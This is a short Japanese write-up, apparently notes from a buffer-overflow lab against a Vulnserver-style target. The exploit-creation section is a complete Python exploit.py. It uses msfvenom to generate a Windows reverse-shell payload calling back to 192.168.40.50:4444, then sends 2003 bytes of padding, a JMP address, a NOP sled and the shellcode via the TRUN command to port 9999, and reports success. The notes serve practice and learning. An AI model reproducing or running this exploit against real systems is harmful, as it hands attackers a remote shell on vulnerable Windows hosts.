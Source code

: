 ```python
```
![[Pasted image 20240727165751.png]]

---
### Exploitの作成

`EIP`の特定、JMP先の特定ができたので、今度はESPをシェルコードに書きかえて、リバースシェルを取得する。
```python : exploit.py
import socket
import sys
import subprocess

buf = subprocess.check_output(['msfvenom -p windows/shell_reverse_tcp LHOST=192.168.40.50 LPORT=4444 -f raw -a x86 -b "\\x00"'],shell=True)
nop = b"\x90" * 32 
jmp_addr = b"\xaf\x11\x50\x62"
buffer = b"A"*2003
payload = buffer + jmp_addr + nop + buf

try:  
  s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
  s.settimeout(5)
  s.connect(('192.168.40.47',9999))
  s.send((b'TRUN /.:/' + payload))  
  s.close()  

except Exception as e:
  print(e)  
  sys.exit()
```

できた！
![[Pasted image 20240727174256.png]]